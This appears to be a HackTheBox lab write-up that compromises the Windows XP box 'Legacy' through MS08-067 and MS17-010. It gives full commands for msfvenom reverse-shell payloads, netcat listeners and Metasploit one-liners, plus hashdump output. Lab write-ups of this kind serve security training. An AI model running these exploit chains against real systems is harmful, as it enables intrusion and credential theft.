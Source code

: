 ```yaml
---
title: Legacy Writeup
date: 2021-12-27
categories: [Writeup, HackTheBox]
tags: hackthebox OSCP WriteUp Windows windowsxp eternalblue MS08-067 MS17-010 TJNULLsList
image:
  src: /assets/Images-01-Legacy/Legacy-infocard.png
  width: 497px    # 697 in pixels
  height: 317px   # 517 in pixels
  alt: Legacy
---
```


> In this writeup I have pwned Legacy from hackthebox in all possible ways using manual exploits and metasploit.


### Enumeration
#### rustscan
```bash
rustscan --accessible -a 10.129.178.214 -- -Pn -p-
```
![](/assets/Images-01-Legacy/2021-12-29-13-18-11.png)
_rustscan results_

#### nmap
```bash
sudo nmap -Pn -A -O -p 139,445 10.129.178.214 | tee nmap.log
```
![](/assets/Images-01-Legacy/2021-12-29-13-39-30.png)
_nmap results_

```bash
sudo nmap -Pn --script=smb-vuln* -p 139,445 10.129.178.214 | tee nmap-vulns.log
```
![](/assets/Images-01-Legacy/2021-12-29-13-53-30.png)
_nmap vulnerablity scan results_

Target is running 
- **OS** : Windows XP SP2 or Later.
- SMB Service with disabled message signing.

This can lead to exploitation using eternal blue exploit on outdated OS with vulnerable state of service.

nmap vulnerablity script scan gave confirmation target is vulnerable to 
- [CVE-2008-4250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250) : Microsoft Windows system vulnerable to remote code execution (MS08-067)
- [CVE-2017-0143](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143) : Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)

#### smbclient
```bash
smbclient -NL 10.129.178.214
smbmap -H 10.129.178.214
```
**`smbmap`**  and  **`smbclient`** confirmed no shares are accessible.

---

### Exploitation
#### MS08-067
For exploiting the target using MS08-067 we can use the following exploit from github. [MS08-067](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)

```bash
wget "https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py"
```
This exploit have dependencies of python library `pycryptodomex / pycryptodome` which was previously known as `pycrypto`.

Installing `impacket` in python virtual environment will fulfill the minimum requirement to execute exploit.

```bash
virtualenv -p /usr/bin/python venv
source venv/bin/activate

git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip install .
# cd back to exploit location.
```
![](/assets/Images-01-Legacy/2021-12-29-14-19-08.png)

Now we can test if exploit is usable using simple run.
```bash
python ms08-067.py
```
This will give usage example to run this exploit.
![](/assets/Images-01-Legacy/2021-12-29-14-20-10.png)

This exploit also requires shellcode to get a reverse shell. 
We can generate shell code using following
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```
![](/assets/Images-01-Legacy/2021-12-29-14-22-21.png)

We have to copy this generated shellcode and put it in exploit at line 53.
We have to remove the existing shell code and put out shellcode in `shellcode()` function.

![](/assets/Images-01-Legacy/2021-12-29-14-24-04.png)

Now we are ready to execute exploit script using the following command.
```bash
rlwrap nc -lvnp 1337 # setting up listener

python ms08-067.py 10.129.178.214 6 445
```

> Note : We are selecting 6 because target is running Windows XP SP3 which was found in nmap enumeration. In case of other language of XP or other varient of OS. Enumeration and hit n trial will be required.

**`And finally we get a shell.`**
![](/assets/Images-01-Legacy/2021-12-29-14-30-47.png)

---

#### MS17-010

For exploiting the target using MS17-010 we can use the following exploit from github. [MS17-010](https://github.com/helviojunior/MS17-010)

```bash
git clone https://github.com/helviojunior/MS17-010.git
cd MS17-010/
python checker.py 10.129.178.214
```
The `checker.py` script also confirms this is vulnerable to MS17-010.

![](/assets/Images-01-Legacy/2021-12-29-14-37-03.png)

This exploit requires malicious executable to get a reverse shell. We will create it using following commands in the same location of exploit.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > eternalblue.exe
```

And run the exploit after setting up ncat listener.

```bash
rlwrap nc -lvnp 1337

# python send_and_execute.py TARGET_IP eternalblue.exe
python send_and_execute.py 10.129.178.214 eternalblue.exe
```

**And finally we get a shell.**
![](/assets/Images-01-Legacy/2021-12-29-14-44-43.png)

---

#### Metasploit | MS17-010

With below one liner we can exploit target with Metasploit MS17-010 module and get meterpreter shell.
```bash
msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 4444; set RHOSTS 10.129.178.214; run;"
```
![](/assets/Images-01-Legacy/2021-12-29-15-04-07.png)


#### Metasploit | MS08-067

```bash
msfconsole -q -x "use exploit/windows/smb/ms08_067_netapi; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 5555; set RHOSTS 10.129.178.214; run;"
```
![](/assets/Images-01-Legacy/2021-12-29-15-07-49.png)

---

### Post Exploitation
This system didn't had whoami to check the privileges.

#### TCP Reverse Shell 

Using SMB Server and executing we got to know we have highest privilege in system.

```bash
# in attacker machine
sudo smbserver.py a /usr/share/windows-resources/binaries/ 

# in target machine
\\10.10.17.81\a\whoami.exe
```

![](/assets/Images-01-Legacy/2021-12-29-15-26-32.png)

---
#### Meterpreter

Using `getuid` we got current user. 
And using `hashdump` following hashes were collected.
```hash
Administrator:500:b47234f31e261b47587db580d0d5f393:b1e8bd81ee9a6679befb976c0b9b6827:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:0ca071c2a387b648559a926bfe39f8d7:332e3bd65dbe0af563383faff76c6dc5:::
john:1003:dc6e5a1d0d4929c2969213afe9351474:54ee9a60735ab539438797574a9487ad:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:f2b8398cafc7174be746a74a3a7a3823:::
```

![](/assets/Images-01-Legacy/2021-12-29-15-33-30.png)

---

### Recommendation

SMB was enabled on outdated un-supported Winodws XP and SMB message signing was disabled. And running with privileges of Administrator.

> Update to latest supported version of Windows. 
> 
> Advised not to run SMB service with disabled message signing as Administrator.

---

### Key Learning
In this pentest, with easiest enumeration we got to know target is vulnerable to eternal blue. And there are a lot of exploits available for this on github and other resources.

Going forward keeping **a fork of working exploit`** with instructions to run it will help saving a a lot time in pentest period.

Outdated exploits like **`Eternal blue`** have dependency issues because of older version of python libraries. 

To save trouble it would be good idea to get libraries in **`virtual environment`** and run the exploit.

---
